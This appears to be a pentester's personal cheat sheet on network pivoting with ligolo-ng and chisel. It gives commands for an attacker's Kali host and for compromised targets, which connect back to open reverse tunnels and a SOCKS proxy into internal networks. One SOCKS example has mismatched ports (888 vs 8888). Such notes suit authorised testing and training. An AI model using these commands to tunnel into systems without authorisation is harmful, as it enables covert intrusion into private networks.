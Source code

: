 ## LIGOLO-NG

Proxy - KALI:
- sudo ip tuntap add user kali mode tun ligolo
- sudo ip link set ligolo up 
	- sudo ip route add 240.0.0.1/32 dev ligolo
		- adds port forwarding, can now access through 240.0.0.1
- sudo ligolo-proxy -selfcert

Agent - TARGET:
	./agent.exe (or respective linux binary, if windows make sure have wintun.dll)
	agent -connect {kali ip}:11601 -ignore-cert

KALI:
- session
- autoroute (and start tunnel)

- medium guide to pivoting using ligolo ng is great for double pivots, port forwarding explanation, need to make notes here

## CHISEL
Listener/Server - KALI
- ./chisel server -p 9999 --reverse
Client - Target
- chisel client {KALI IP}:9999 R:LOCAL_PORT:TARGET_IP:TARGET_PORT
- Target IP and Port are for the service trying to reach

Example:
- Kali: ./chisel server -p 9999 --reverse
- Target: chisel client {KALI IP}:9999 R:8000:127.0.0.1:8000
Then to access, use 127.0.0.1 and whatever port assigned

Also for socks proxy:
- kali:./chisel server -p 888 --reverse
- target:./chisel.exe client <kaliip>:8888 R:socks
- proxychains.conf socks5 127.0.0.1 1080